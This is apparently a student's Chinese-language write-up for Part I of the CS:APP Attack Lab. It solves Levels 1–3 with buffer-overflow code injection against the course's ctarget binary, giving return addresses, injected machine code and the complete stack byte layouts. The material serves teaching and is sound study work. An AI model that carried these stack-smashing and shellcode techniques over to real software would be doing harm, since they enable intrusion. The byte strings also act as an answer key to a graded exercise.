 # Part I: Code Injection Attacks
由于Lab程序编译平台比较老，运行时会出现segment fault。可以自己链接一个printf函数来解决这个问题。详细见[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)  
运行时使用如下命令
```
$ LD_PRELOAD=./printf.so ./ctarget -q
```
或在GDB中使用
```
(gdb) set environment LD_PRELOAD=./printf.so
```

## Level 1
阅读`getbuf`函数反汇编代码可以发现调用时分配了`0x28`大小的栈空间，该空间包括了`BUFFER_SIZE`指定的空间大小和编译器预留的空间。再往上`0x8`字节即为返回地址。输入字符串覆盖该地址即可。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```
查找`touch1`函数的地址为`0x4017c0`, 小端表示并扩展到`0x8`字节得到
```
c0 17 40 00 00 00 00 00
```
前面随便填充`0x28`字节的字符即可

## Level 2
使用gdb查看运行时栈地址, 注意到调用`getbuf`后栈地址维持`0x5561dca0`不变, 考虑直接写入指令进行攻击
注意此时栈指针`%rsp`经过经过一次`ret`后值为`0x5561dca8`, 顶部 8 bytes写入`touch2`地址进行`ret`
```
0x5561dca8 ec 17 40 00 00 00 00 00
```
继续往上8 bytes用于存储需要传入的`cookie`, 起始地址距栈顶`0x8`
```
0x5561dcb0 fa 97 b9 59 00 00 00 00
```
攻击执行的汇编指令如下
```
mov 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码可以写为16进制指令
```
mov 0x8(%rsp),%rdi  48 8b 7c 24 08
ret                 c3
```
指令共6 bytes. 反推从`getbuf`返回时的执行指令地址为`0x5561dca8 + 0x8 + 0x8 = 0x5561dcb8`
整理为写入后的栈帧
```
0x5561dcbd c3 
0x5561dcb8 48 8b 7c 24 08
0x5561dcb0 fa 97 b9 59 00 00 00 00
0x5561dca8 ec 17 40 00 00 00 00 00
0x5561dca0 b8 dc 61 55 00 00 00 00 
```

## Level 3
方法类似Level 2, 区别在于写入的值和栈上数据的位置布局. 首先考虑第一次`ret`跳转后, 顶部写入`touch3`地址准备进行下一次`ret`
```
0x5561dca8 fa 18 40 00 00 00 00 00
```
写入`cookie`的十六进制表示字符串(包含一个`\0`终止符)
```
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
```
此后写入执行代码
```
lea 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码改写为二进制指令
```
lea 0x8(%rsp),%rdi   48 8d 7c 24 08
ret                  c3
```
故首次写入的ret返回地址应为`0x5561dca8 + 0x8 + 0x8 + 0x1 = 0x5561dcb9`. 整理写入后的栈帧
```
0x5561dcbe c3
0x5561dcb9 48 8d 7c 24 08
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
0x5561dca8 fa 18 40 00 00 00 00 00
0x5561dca0 b9 dc 61 55 00 00 00 00 
```